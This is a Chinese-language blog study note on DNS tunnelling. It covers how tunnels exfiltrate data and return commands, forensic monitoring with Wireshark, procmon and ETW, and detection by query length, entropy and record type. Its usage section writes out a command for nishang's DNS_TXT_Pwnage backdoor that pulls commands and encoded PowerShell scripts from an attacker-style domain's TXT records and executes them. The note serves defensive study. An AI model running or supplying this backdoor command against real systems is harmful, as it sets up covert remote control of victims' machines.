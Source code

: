 ```yaml
---
layout: post
title:  dns tunnel 学习笔记
date: 2017-10-27
categories: 工具介绍
tags:  病毒分析
---
```


* content
{:toc}


[dns隧道](http://www.freebuf.com/articles/network/149328.html),这是一篇学习笔记









## 

看了很多篇有关dns隧道网文，决定从以下几个方面来分析一下dns隧道

1. 原理总结
2. dns后门工具：nishang/DNS_TXT_Pwnage
3. 如何对dns请求取证分析：本机DNS请求->定位到进程，wireshark->查看流量包，监控单个进程行为

## 原理

原文中将dns tunnel按照外传，和交互方式的特点来分类

### dns外传方式分类两个因素

#### 有无经过本地dns服务器

通过本地dns服务器或者是直接向公共服务器8.8.8.8进行查询
	
	nslookup domain 8.8.8.8
	nslookup domain

效果差异： 在发现以后，使用本地dns服务器可以进行黑名单过滤，对查询过程进行阻止，使用公共dns服务器无法进行阻止

#### 有无构造dns包体

通过dns配置或者是直接发送dns包体进行查询

使用dnspython模块，或者python构造socket进行dns查询 

效果差异：

1. 系统dns配置，无法获取哪个程序调用了dns请求，仅能看到系统svchost.exe的dns请求
2. 构造dns包体，可以获取哪个进程进行了dns请求


### dns交互分析

1. 超长记录外传数据 通过记录外传数据  
2. 利用txt记录获取回传数据
3. A记录回包作为C&C地址



## 工具分析

先对工具进行分析，知己知彼，百战不殆

DNS_TXT_Pwnage

### 场景假设：

1. victim向目标evil_dns服务器请求为type=txt的dns服务
2. evil_dns返回，nishang的DNS_TXT_Pwnage读取txt并执行
3. 乌云文章：DNS TXT记录执行powershell 等多种方式 中均没有涉及到通过长域名将数据外传，相当于使用powershell使用dns_txt请求得到木马，再进行tcp通信 wooyun.jozxing.cc/static/drops/tips-8971.html

### 使用手册

	DNS_TXT_Pwnage -startdomain start.evi1cg.me -cmdstring start -commanddomain command.evi1cg.me -psstring test -psdomain xxx.evi1cg.me -Subdomains 1 -StopString stop
	-startdomain :向startdomain发送请求 ，从txt记录回复中提取字串 
	-cmdstring   如果startdomain 获取的值 与cmdstring 相同 会请求comdomain
	-commanddomain dns命令服务器，返回的txt记录，直接是命令方式：get-user
 	-psstring    如果startdomain 获取的值 与psstring 相同，会请求psdomain
	-psdomain    dns脚本服务器，返回的txt记录是脚本形式，是用Out-DnsTxt 加密后的，经过解密可直接执行
	-subdomain   脚本太大，txt记录长度限制只能在255，比如一个脚本可能被分成两个加密字串 subdomain为2，在域名解析配置为1.ps 和 2.ps psdomain配置为ps
	-stopstring 如果startdomain值与 stopstring相同则停止运行，注：脚本是一直运行并发送请求 

### 特征：

利用txt记录获取回传记录

对于是否构造dns包体暂不清楚，是否使用本地dns服务器可以先看代码

## 监控取证

windows cmd下 ipconfig /flushdns 刷新缓存， ipconfig /displaydns 查看缓存，[缓存操作](http://www.linuxfly.org/post/543/)

开启dns日志，[win7有效果](https://green-m.github.io/2017/08/21/windows-dns-log/)

### 使用etw

理论上可行，但是使用pywintrace不知道为什么没有日志输出，暂时无法实际操作

#### 监控每个端口上的DNS通信
   
收集每个端口(或DNS客户端)上DNS解析器执行的每个DNS解析。数据是从Microsoft-Windows-DNS-Client ETW跟踪获得

#### 监控Netflow(IP)流量到出站DNS端口53
从每个服务器收集出站端口53的Netflow数据。Netflow数据是来自数据包头(IP地址，域，端口，协议，字节和进程)的聚合网络元数据。数据来自Microsoft-Windows-Kernel-Network ETW跟踪

#### 监控内部DNS服务器上的DNS数据(DNSflow)
汇总和收集来自DNS网络中DNS服务器的DNS查询和响应数据。DNSflow监控。收集的一些信息是聚合查询计数，查询类型，查询和响应字节，子域名，客户端和域名服务器IP地址。数据从Microsoft-Windows-DNSServer ETW跟踪出获得

### 使用wireshark

采用过滤器DNS，可以很清晰查看本机DNS向外部发送的请求

完成wireshark->查看流量包 目标

### 使用procmon

如果使用系统调用方式nslookup可以很好查到dns请求参数

procmon 是windowSysinternals中一款工具，可以对文件，进程，注册表操作做监控，使用菜单栏->Tools->Network Summary可以查看到相关的网络请求 Path代表 ```ip:port```形式 port为domain代表是dns查询，ip很有可能是内网地址，内网ip服务器，双击(添加进入过滤器)，再使用Show ProcessTree 即可查看进程树，可以查看到调用的进程

简单易操作，能够完成从异常DNS定位到发起进程，无论是调用系统配置，nslookup，或者是构造dns查询包直接查询。

完成 本机DNS请求->定位到进程

在进程树将进程和子进程加入过滤器，可以监控所有的行为：完成  监控单个进程行为

## 大流量对DNS隧道进行检测(理论)
SAAN白皮书[检测DNS隧道](https://github[.]com/NetSPI/BurpCollaboratorDNSTunn)

文章从payload分析和流量分析两个部分来对dns流量进行检测

### payload分析

请求和响应用来做隧道指示器

借用DGA(Domain Generation Algorithms)方法，

#### 请求和响应的长度

1. 检查请求源和目标字节长度的比率
2. DNS隧道请求的字符从63到255个，也有人以52个以上做鉴别

#### 主机名的熵

合法的DNS名通常来说符合字典而且看起来有意义，不合法的域名熵值高

#### 统计分析

1. 合法的域名使用的数字少，不合法的数字多

2. 合法的域名在一定层度上反映了通用语言文本，使用字符频率来检测
3. 重复辅音和数字通常情况都不会出现，

#### 不寻常的记录类型

TXT 记录

#### 

### 流量分析

存在于时间之上，将考虑技术、频率和其他请求属性



## 攻击者角度 DNS使用

### 动态DNS 技术

将域名链接到动态IP上，IP 是变化的，动态IP地址映射到一个固定的域名解析服务上

### Fast-flux


IP频繁变化 对应一个域名
(fast-flux技术地址)[http://www.freebuf.com/articles/network/136423.html]

### 域名地址变化

固定时间间隔产生唯一的域名， 域名生成算法(DGA)


